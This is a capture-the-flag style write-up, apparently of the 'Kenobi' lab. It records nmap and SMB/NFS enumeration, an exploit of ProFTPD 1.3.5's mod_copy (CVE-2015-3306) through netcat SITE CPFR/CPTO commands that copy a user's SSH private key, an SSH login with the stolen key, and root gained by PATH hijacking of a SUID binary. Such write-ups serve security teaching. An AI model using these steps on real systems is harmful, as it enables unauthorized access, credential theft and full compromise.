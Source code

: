 <pre>
Ran service discovery scan
- nmap -Pn -A -sV -Sc -F 10.10.66.72

Scan Results:

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn&apos;t have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)  &lt;&lt;!
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      45831/tcp6  mountd
|   100005  1,2,3      54366/udp   mountd
|   100005  1,2,3      54927/tcp   mountd
|   100005  1,2,3      59568/udp6  mountd
|   100021  1,3,4      33981/tcp   nlockmgr
|   100021  1,3,4      36425/tcp6  nlockmgr
|   100021  1,3,4      49118/udp6  nlockmgr
|   100021  1,3,4      54719/udp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  &lt;&lt;!
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m51s, median: 0s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: &lt;unknown&gt;, NetBIOS MAC: &lt;unknown&gt; (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu) &lt;&lt;!
|   NetBIOS computer name: KENOBI\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-01-14T14:19:57-06:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-14T20:19:57
|_  start_date: N/A


Notable finds:
 - port 111 rpcbind
 - port 445 samba service
 - port 21 proFTPD server version 1.3.5
--------------------------------------------------------------------------------------------------

Enumerating samba:

Ran smb enumeration scan with nmap
 - nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.66.72

Scan Results:
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.66.72\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.66.72\anonymous: <<!
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share <<!
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.66.72\print$:
|     warning: Couldn't get details for share: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|     Anonymous access: <none>
|    Current user access: <none>
|_______________________________________________________________________

Notable finds:
 - user kenobi
 - user anonymous

connecting via smbclient:
 - smbclient //10.10.241.98/anonymous
 - found file log.txt, permission denied
 - downloaded log.txt onto host machine using smbget -R smb://10.10.241.98/anonymous
 - log.txt was a proFTPD config file
 - port 21 is default port for proFTPD
--------------------------------------------------------------------------------------------------

Identifying Vulnerabilities:
 - ProFTPD 1.3.5 Server
 - vulnerable to CVE-2015-3306
 - mod_copy_module allows attackers to read/write arbitrary files via (site cpfr and site cpto) commands

Additional Notes:
 mod_copy_module implements SITE CPTO/SITE CPFR commands which is used to copy,
 files/directories from the server without transferring data to the client and back
 --------------------------------------------------------------------------------------------------

Enumerating file system on port 111 with nmap:
 - nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.241.98
 - found mount /var
--------------------------------------------------------------------------------------------------

Exploiting cve-2015-3306:

Mounting /var/ dir. to host machine
 - sudo mkdir /mnt/kenobiNFS
 - sudo mount 10.10.241.98:/var /mnt/kenobiNFS

Copying kenobi's Private key to mounted /var/ dir.
 - nc 10.10.241.98 21
 - SITE CPFR /home/kenobi/.ssh/id_rsa
 - SITE CPTO /var/tmp/id_rsa
--------------------------------------------------------------------------------------------------

Gaining local Privilege Escalation:

Copy private key from mount to host machine dir. in order to use for priv esc
 - cp /mnt/kenobiNFS/tmp/id_rsa
 - sudo chmod 600 id_rsa (connecting via ssh requires private key file to have strict permissions)
 - ssh -i id_rsa kenobi@10.10.241.98

Gained local priv esc
--------------------------------------------------------------------------------------------------

Gaining Root via Path Manipulation:
- searched for binary files with suid bit permission (execs file as owner)
- find / -perm -u=s -type f 2>/dev/null
- found /usr/bin/menu it runs as root w/ no path

Running the binary returns,

********************
1. status check
2. kenrel version
3. ifconfig
** Enter your choice:
*********************

Creating a shell to gain root
 - echo /bin/sh > curl (copies shell to curl)
 - chmod 777 curl
 - export PATH=/tmp:$PATH (Puts the shell in our /tmp path)
 - /usr/bin/menu

 When /usr/bin/menu is run it uses our path to find the 'curl' binary,
 because the menu binary runs as root so does our shell gaining root access.
---------------------------------------------------------------------------------------------------
</pre>
